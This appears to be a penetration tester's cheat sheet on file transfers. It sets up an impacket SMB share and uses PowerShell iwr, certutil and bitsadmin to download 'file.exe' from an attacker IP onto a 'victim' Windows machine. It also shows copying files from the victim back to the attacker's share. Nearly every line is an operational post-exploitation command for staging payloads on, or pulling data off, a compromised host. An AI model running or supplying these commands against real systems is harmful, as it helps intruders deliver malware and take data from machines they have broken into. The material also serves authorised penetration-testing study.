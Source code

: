 





# File Transfers

###  smb transfer 
 Run this following command on the directory including the file and this will start a smb share of that dir

                             
> sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support -username user -password password


NOw authenticate this share in target by

> net use \\IP\share /USER:user password                        

- Now on victim machine  

> copy \\IP\sharename\filename localpathwheretosave


to transfer the file from windows to linux

copy filename.exe \\IP\sharename 

Note if we get an error 1312 or any error regarding smbserver login we may need to change our command a bit

Then we will specify domain in /USER:domain\user

###Disconnect the share from target

> net use \\IP\share /del


### Invoke web request transfer

Start a web server on our local machine and past the following command in victim shell

> powershell.exe iwr -uri 10.4.30.255/file.exe 


### CertUtil

Start a local web server and use followinv command on victim

> certutil -urlcache -f http://10.4.30.255/file.exe file.exe



### BitsAdmin

start a web server and use this command on victim

> bitsadmin /transfer job https://10.4.30.255/file.exe C:\Temp\file.exe


